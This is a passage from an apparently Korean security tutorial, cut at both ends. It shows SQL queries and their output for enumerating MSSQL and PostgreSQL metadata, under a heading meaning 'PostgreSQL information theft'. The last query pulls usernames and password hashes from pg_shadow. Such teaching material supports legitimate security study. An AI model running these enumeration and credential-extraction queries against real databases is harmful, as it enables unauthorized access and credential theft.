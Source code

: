 ```sql
users
*/
```
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users');
/*
name
-----
uid
upw
*/
```
- PostgreSQL 정보 탈취
```sql
postgres=$ select datname from pg_database;
/*
  datname  
-----------
 postgres
 template1
 template0
(3 rows)
*/
```
```sql
postgres=$ select nspname from pg_catalog.pg_namespace;
/*
      nspname       
--------------------
 pg_toast
 pg_temp_1
 pg_toast_temp_1
 pg_catalog
 public
 information_schema
(6 rows)
*/
```
```sql
postgres=$ select table_name from information_schema.tables where table_schema='pg_catalog';
/*
           table_name
---------------------------------
pg_shadow
pg_settings
pg_database
pg_stat_activity
...
*/

postgres=# select table_name from information_schema.tables where table_schema='information_schema';
/*
              table_name
---------------------------------------
schemata
tables
columns
...
*/
```
```sql
postgres=$ select usename, passwd from pg_catalog.pg_shadow;
/*
 usename  |               passwd
```